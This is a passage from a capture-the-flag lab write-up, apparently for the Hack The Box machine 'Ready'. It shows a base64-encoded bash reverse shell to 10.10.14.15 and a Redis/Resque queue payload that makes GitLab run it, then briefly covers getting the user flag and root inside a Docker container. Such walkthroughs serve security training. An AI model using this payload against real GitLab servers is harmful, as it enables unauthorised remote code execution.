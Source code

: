 \# base64 encoding done using [cyberchef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMy8xNTAwICAwPiYxJw) to remove "+"'s since this will be passed to the server as a URL (+ signs can be interpreted as spaces instead so it is best to avoid them):

bash -c 'bash -i >& /dev/tcp/10.10.14.15/1500 0>&1'

![[Pasted image 20240229202419.png]]

```
# cyberchef output
YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMy8xNTAwICAwPiYxJw==
```

Payload:

```
multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|echo -n YmFzaCAtYyAgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTUvMTUwMCAwPiYxJw== | base64 -d | bash \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
 exec
```

![[Pasted image 20240229203630.png]]


Now the payload is loaded into Burp Suite I can click "Forward" and then turn Intercept off. Then on the listener, you can see a connection and reverse shell has worked:

![[Pasted image 20240229203252.png]]

# User Own

Now we have access to the system the user flag can be found after some basic `cd`, `ls` and `cat` commands:

![[Pasted image 20240229203521.png]]

# System Own

The system own for this machine involves Docker container enumeration 

Running this command `cat gitlab.rb | grep -v "^#" | grep .` on `gitlab.rb` produces the following:

![[Pasted image 20240229204521.png]]

I am now a root user in the docker container but I am not a root user on the actual host!

![[Pasted image 20240229205716.png]]


---

# 🔗 Useful Links

**Guides Used:**
- [0xdf - Writeup](https://0xdf.gitlab.io/2021/05/15/htb-ready.html)
- [ippsec - Video](https://www.youtube.com/watch?v=bHVVYBzOX54)
